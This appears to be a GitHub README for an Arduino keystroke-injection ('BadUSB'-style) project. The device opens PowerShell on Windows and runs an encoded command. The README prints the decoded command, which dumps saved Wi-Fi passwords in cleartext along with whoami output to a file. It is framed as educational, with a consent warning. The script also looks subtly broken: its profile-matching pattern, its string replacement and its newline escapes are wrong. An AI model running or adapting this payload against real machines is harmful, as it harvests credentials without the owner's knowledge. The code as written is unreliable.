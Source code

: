 # BadArduino: Executing Commands on Windows with Arduino

This project is a demonstrative example of how to use an Arduino device to send predefined commands to a computer. The code shows how to simulate keystrokes and send commands to PowerShell using Arduino's keyboard emulation capabilities, with the `Keyboard.h` library.

⚠️ **WARNING**: This code is purely for illustrative and educational purposes. Misuse of such techniques may violate the law or security policies. Use this project only in a controlled environment and with the device owner's consent.

---

## Code Features

This code uses an Arduino (e.g., Arduino Leonardo or another device capable of keyboard emulation) to:
1. Open PowerShell using the Windows shortcut `Win + R`.
2. Execute a Base64-encoded PowerShell command, which is decoded and explained below.

> **Note:** Make sure to use the appropriate keyboard layout library for the target PC’s language. For example, `Keyboard_it_IT.h` for Italian, or another layout file that matches the intended language. This ensures that the keys are correctly interpreted on the destination system.

---

## Decoding the `EncodedCommand` Command

The Base64 encoded string executes a PowerShell command that collects various system information. Here is the original command:

```powershell
$filePath = "$env:USERPROFILE\test.txt";
$wifiProfiles = netsh wlan show profiles | Select-String "All user profiles" | ForEach-Object { ($_ -split ": ")[1].Trim() };
$output = "";
$wifiProfiles | ForEach-Object { $profile = $_; $profileInfo = netsh wlan show profile name="$profile" key=clear; $password = ($profileInfo | Select-String "Key Content").replace('^.*:\s*', ''); if (!$password) { $password = "N/A" }; $output += "Profile: $profile\nPassword: $password\n"; };
$userInfo = whoami;
$output += "`nUser Info: $userInfo`n";
$output | Out-File -FilePath $filePath;
notepad $filePath
```

This command saves a `test.txt` file containing information about WiFi profiles and other user information in the user's folder (`$env:USERPROFILE`).